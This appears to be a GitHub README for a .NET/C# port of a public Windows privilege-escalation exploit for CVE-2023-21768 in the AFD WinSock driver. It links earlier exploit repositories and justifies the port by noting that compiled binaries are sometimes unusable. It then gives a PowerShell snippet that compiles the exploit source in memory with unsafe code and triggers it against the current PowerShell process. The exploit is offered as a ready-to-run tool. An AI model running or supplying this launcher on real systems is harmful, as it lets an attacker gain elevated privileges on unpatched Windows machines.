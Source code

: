 # CVE-2023-21768 - Dotnet

Dotnet / c# port of AFD-for-WinSock-EoP exploit

References:

- https://github.com/zoemurmure/CVE-2023-21768-AFD-for-WinSock-EoP-exploit
- https://github.com/chompie1337/Windows_LPE_AFD_CVE-2023-21768

## Why?

Sometimes you can't use compiled binaries.

## How to?

Run the following in powershell.

```powershell
$PWSH_PID = ([System.Diagnostics.Process]::GetCurrentProcess() | Select-Object -ExpandProperty ID)
echo "[*] Current powershell PID: $PWSH_PID"
echo "[+] Compiling EoP exploit"
Add-Type -Path eop.cs -CompilerOptions "-unsafe"
echo "[+] Triggering exploit"
[XOR.EoP]::Run($PWSH_PID)
echo "[+] Exploit finished"
```
